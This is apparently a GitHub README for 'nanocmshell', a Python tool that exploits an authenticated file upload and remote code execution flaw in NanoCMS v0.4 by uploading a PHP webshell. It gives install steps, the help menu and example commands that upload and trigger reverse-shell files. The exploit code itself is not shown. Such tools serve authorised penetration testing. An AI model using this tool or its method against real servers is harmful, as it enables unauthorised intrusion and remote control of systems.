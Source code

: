 # nanocmshell ⭐
a simple script that exploits an authenticated file upload/remote code execution vulnerability in NanoCMS v0.4.  

## the exploit ❗
https://github.com/kalyan02/NanoCMS has not been maintained in a long time and suffers from a a number of vulnerabilities including authenticated file upload/remote code execution which this script exploits.  
More information here: https://github.com/ishell/Exploits-Archives/blob/master/2009-exploits/0904-exploits/nanocms-multi.txt  
NanoCMS saves pages both new and edited, as .php files by default, allowing an authenticated attacker to upload executable code.  
this script uploads a webshell.

## prerequisites ✔
* python3
* python3 requests module
* python3 beautifulsoup4 module
```
sudo apt install python3
sudo apt install python3-pip
pip3 install beautifulsoup4
pip3 install requests
```

## usage ℹ
use `./nanocmshell` or `python3 nanocmshell` with `-h` or `--help` for help menu:
```
usage: nanocmshell [-h] [-u USER] [-p PASSWD] [-e] [-a] [-n] address file

../nanocmshellv2.py exploits authenticated file upload
and remote code execution in NanoCMS.

positional arguments:
  address               schema/ip/hostname, port, sub-directories to the vulnerable NanoCMS
                        server
  file                  php file to upload

options:
  -h, --help            show this help message and exit
  -u USER, --user USER  username
  -p PASSWD, --passwd PASSWD
                        password
  -e, --execute         attempts to make a request to the uploadedfile (more useful if
                        uploading a reverse shell)
  -a, --accessible      turns off features which may negatively affect screen readers
  -n, --no-colour       removes colour output

examples:
        python3 nanocmshellv2.py http://10.10.10.10/ rev.php
        python3 nanocmshellv2.py http://hostname:8080 rev-shell.php -a
        ./nanocmshellv2.py https://10.10.10.10 rev-shell -n -e -u 'user'
```
